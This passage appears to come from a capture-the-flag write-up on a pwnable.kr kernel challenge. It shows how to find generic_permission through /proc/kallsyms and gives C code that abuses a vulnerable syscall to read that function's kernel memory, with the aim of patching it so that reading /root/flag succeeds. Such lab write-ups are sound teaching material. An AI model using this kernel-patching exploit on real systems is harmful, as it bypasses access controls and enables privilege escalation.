So if we manage to make this function return true all the time, we could just use 
`cat /root/flag` 
and it should work.


#### Finding the address
In order to find the address we could make use of `/proc/kallsyms` which is basycally the kernel's symbol table.

```
/ $ cat /proc/kallsyms | grep generic_permission
800c7d64 T generic_permission
...
```

So the address is  `0x800c7d64`, now let's patch this function!


#### Reading the function opcodes
In order to patch the function, I need to inspect its compiled code. I can get it by setting up an entire kernel with qemu like in pwnable.kr VMs, but that will be a waste of time because I actually have read/write kernel memory vulnerability. let's just read it!

Here is a C code that uses the vulnerable syscall to read the function's content:
```c
#include <unistd.h>
#include <sys/syscall.h>
#include <stdio.h>
#include <string.h>

#define MAX 10000

int main() {
    int counter = 0;
    int upper_syscall_descriptor = 223;
    // 800c7d64 T generic_permission
    int input = 0x800c7d64;
    char output[MAX];
    memset(output, 0, MAX);
    
    // Read content
    while (counter < 500) {
        syscall(upper_syscall_descriptor, input + counter, output);

        for (int i = 0; i < MAX && output[i] != 0; i++) {
            printf("%02x ", output[i]);
            counter++;
        }

        printf("00 ");
    }
    
}

```

